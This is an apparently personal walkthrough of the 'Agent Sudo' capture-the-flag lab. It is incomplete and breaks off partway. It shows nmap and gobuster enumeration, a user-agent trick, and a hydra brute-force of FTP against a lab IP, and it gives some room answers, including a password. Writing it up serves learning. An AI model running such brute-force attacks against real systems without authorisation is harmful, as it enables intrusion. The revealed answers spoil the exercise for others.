

# Agent Sudo

<center></center>

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Task 1 - Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

```
export IP=10.10.218.33
```


## Task 2 - Enumerate

Enumerate the machine and get all the important information

### Try to open IP from browser


### Scan open port with nmap

```
nmap -sV -sC -oN nmap-scan $IP
```



### Scan directory with gobuster

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP | tee gobuster-default.txt
```


### Change user-agnet

We get information from website, that we must change codename as user-agent to access the site. 

* Install User-Agent Switcher on Firefox browser

	

* Set User-Agent Codename

	

* Reopen website with user-agent

	

### Answer the questions

* How many open ports?

`3`

* How you redirect yourself to a secret page?

`user-agent`

* What is the agent name?

`chris`

## Task 3 - Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

### Brute Force FTP with hydra

```
hydra -l chris -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt ftp://$IP
```


### Answer the questions

* FTP password

`crystal`

* Zip file password

* steg password

* Who is the other agent (in full name)?

* SSH password


